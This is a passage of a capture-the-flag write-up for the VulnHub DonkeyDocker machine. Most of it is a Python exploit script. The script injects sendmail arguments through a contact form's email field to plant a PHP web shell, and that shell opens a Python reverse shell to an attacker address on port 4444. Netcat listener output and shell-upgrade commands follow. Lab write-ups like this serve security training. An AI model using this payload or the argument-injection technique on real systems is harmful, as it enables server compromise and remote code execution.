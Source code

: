 ___exploit.sh___
```
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")

target = 'http://192.168.109.149/contact'
backdoor = '/backdoor.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.109.150\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get('192.168.109.149/'+backdoor, headers=headers)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
```
To get the reverse shell:
1. __Run the exploit `python exploit.sh`__
2. __Start a listener on the attacking box `nc -lnvp 4444`__
3. __Navigate to `http://192.168.109.149/backdoor.php`__

## Low-Privilege Shell
We get the Low Priv Shell
```
kali@marksmith:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.109.150] from (UNKNOWN) [192.168.109.149] 58344
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@12081bd067cc:/www$ ^Z
[1]+  Stopped                 nc -lnvp 4444
kali@marksmith:~$ stty raw -echo
kali@marksmith:~$ nc -lnvp 4444
www-data@12081bd067cc:/www$  export TERM=screen
```
Looking around we find `.htaccess`:
```
www-data@12081bd067cc:/www$ ls -alh
```

[1]: https://www.vulnhub.com/entry/donkeydocker-1,189/
[2]: https://twitter.com/@dhn_
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
